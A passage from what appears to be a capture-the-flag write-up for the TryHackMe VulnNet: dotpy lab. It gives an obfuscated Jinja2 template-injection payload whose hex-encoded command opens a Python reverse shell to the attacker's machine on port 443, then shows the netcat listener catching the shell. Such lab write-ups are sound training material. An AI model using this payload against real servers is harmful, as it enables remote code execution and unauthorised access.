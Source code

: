 - Run the payload:

```py
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('\x70\x79\x74\x68\x6f\x6e\x33\x20\x2d\x63\x20\x27\x69\x6d\x70\x6f\x72\x74\x20\x73\x6f\x63\x6b\x65\x74\x2c\x73\x75\x62\x70\x72\x6f\x63\x65\x73\x73\x2c\x6f\x73\x3b\x73\x3d\x73\x6f\x63\x6b\x65\x74\x2e\x73\x6f\x63\x6b\x65\x74\x28\x73\x6f\x63\x6b\x65\x74\x2e\x41\x46\x5f\x49\x4e\x45\x54\x2c\x73\x6f\x63\x6b\x65\x74\x2e\x53\x4f\x43\x4b\x5f\x53\x54\x52\x45\x41\x4d\x29\x3b\x73\x2e\x63\x6f\x6e\x6e\x65\x63\x74\x28\x28\x22\x31\x30\x2e\x39\x2e\x30\x2e\x32\x35\x33\x22\x2c\x34\x34\x33\x29\x29\x3b\x6f\x73\x2e\x64\x75\x70\x32\x28\x73\x2e\x66\x69\x6c\x65\x6e\x6f\x28\x29\x2c\x30\x29\x3b\x20\x6f\x73\x2e\x64\x75\x70\x32\x28\x73\x2e\x66\x69\x6c\x65\x6e\x6f\x28\x29\x2c\x31\x29\x3b\x6f\x73\x2e\x64\x75\x70\x32\x28\x73\x2e\x66\x69\x6c\x65\x6e\x6f\x28\x29\x2c\x32\x29\x3b\x69\x6d\x70\x6f\x72\x74\x20\x70\x74\x79\x3b\x20\x70\x74\x79\x2e\x73\x70\x61\x77\x6e\x28\x22\x2f\x62\x69\x6e\x2f\x62\x61\x73\x68\x22\x29\x27')|attr('read')()}}
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/TryHackMe/VulnNet-dotpy/images/Pasted%20image%2020221227234748.png)

```
┌──(root🌸siunam)-[~/ctf/thm/ctf/VulnNet-dotpy]
└─# nc -lnvp 443
listening on [any] 443 ...
connect to [10.9.0.253] from (UNKNOWN) [10.10.130.194] 42326
web@vulnnet-dotpy:~/shuriken-dotpy$ whoami;hostname;id;ip a
web
vulnnet-dotpy
uid=1001(web) gid=1001(web) groups=1001(web)
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
```